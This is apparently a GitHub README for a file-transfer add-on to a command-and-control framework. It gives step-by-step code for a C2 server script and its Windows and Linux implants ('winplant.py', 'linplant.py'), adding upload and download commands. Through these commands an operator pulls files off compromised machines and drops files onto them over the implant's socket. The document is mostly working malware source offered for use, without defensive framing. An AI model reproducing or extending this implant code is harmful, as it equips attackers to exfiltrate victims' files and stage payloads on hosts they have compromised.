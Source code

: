 # File Transfer Module

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

This module adds a function file called transfer.py to the project, which can be used to upload and download files to and from the C2 server.

# Usage

### smtp.py 

1. Create a new folder called "functions", and add the transfer.py file to it. 
2. Inside of the sockserver.py file, add the following imports:
```
import os.path
from functions.transfer import upload_file, download_file
```
3. Inside of the target_comm function of the main script, add the following
```
        elif message[:7] == 'upload ':
            file_name = message[7:]
            upload_file(targ_id, file_name)
        elif message[:9] == 'download ':
            file_name = message[9:]
            file_name = os.path.basename(file_name)
            print(info + f'[+] Attempting to download {file_name}.')
            download_file(targ_id, file_name)
```
3. Inside of both the winplant.py and linplant.py files, add the following functions:
```
def upload_file(file_name):
    try:
        f = open(file_name, 'wb')
        secure_sock.settimeout(2)
        chunk = secure_sock.recv(8192)
        while chunk:
            f.write(chunk)
            try:
                chunk = secure_sock.recv(8192)
            except socket.timeout as e:
                break
        secure_sock.settimeout(None)
        f.close()
    except Exception as e:
        print(e)


def download_file(file_name):
    try:
        f = open(file_name, 'rb')
        while True:
            try:
                bytes_read = f.read(8192)
                if not bytes_read:
                    break
                secure_sock.send(bytes_read)
            except Exception as e:
                print(e)
    except Exception as e:
        print(e)
```
4. Inside of the session_handler function of both payloads, add the following:
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                filename = os.path.basename(filename)
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                download_file(filename)
```

### Functionality 
Using the ```upload``` and ```download``` commands followed by the file name to send, you can transfer files to and from.
